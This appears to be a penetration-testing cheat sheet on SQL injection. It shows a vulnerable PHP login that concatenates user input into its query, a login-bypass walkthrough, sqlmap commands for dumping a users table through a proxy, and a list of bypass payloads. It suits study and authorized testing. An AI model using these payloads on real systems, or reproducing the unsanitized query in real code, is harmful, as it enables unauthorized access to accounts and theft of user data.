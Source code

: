 # SQL-injections


## How does sql-injections work?

So we have a website that is written in php. We have a login functionality, where the code looks like this:

```
<?php
	mysql_connect("localhost", "pelle", "mySecretPassowrd") or die(mysql_error());

	mysql_select_db("myHomepage");
	
	if ($_POST['uname'] != ""){
		$username = $_POST['username'];
		$password = $_POST['password'];
		$query = "SELECT * FROM users WHERE username = '$username' AND password='$password'";
		$result = mysql_query($query);

		$row = mysql_fetch_array($result);
	}
?>
```

So the user input is not filtered or sanitized in any way. Which means that what the users puts in in the login-form will be executed my mysql. So just like in xss-injections we just try to escape the input field to be able to execute sql-commands. So if we input the following into the user-field and password-field in the login:

```
whatever' or '1'='1
whatever' or '1'='1
```

The query will look like this:
```
$query = "SELECT * FROM users WHERE username = 'whatever' OR '1'='1' AND password='whatever' OR '1'='1'";
```

Since they both become true the database will retrieve all users and we will be able to bypass the login.

If you know the username you could of course use that and then only inject on the password parameter.

```
$query = "SELECT * FROM users WHERE username = 'admin' AND password='whatever' OR '1'='1'";
```



## SQLmap

Sqlmap is a great tool to perform sqlinjections.
Here is the manual.
https://github.com/sqlmapproject/sqlmap/wiki/Usage


### Dumping a database or table

Here we are dumping the database Webapp and the table Users.

```
sqlmap -r request.txt -p username --dbms=mysql --dump -D Webapp -T Users
```

### Use proxy

```
--proxy="http://192.2.2.2.2:1111"
```

**Proxy credencials**
```
--proxy-cred="username:password"
```


Here is a tutorial on how to make sql-injections with post-requests.

https://hackertarget.com/sqlmap-post-request-injection/


## Login bypass



This is the most classic, standard first test:
```
' or '1'='1
```

Then you have:

```
-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
```




## References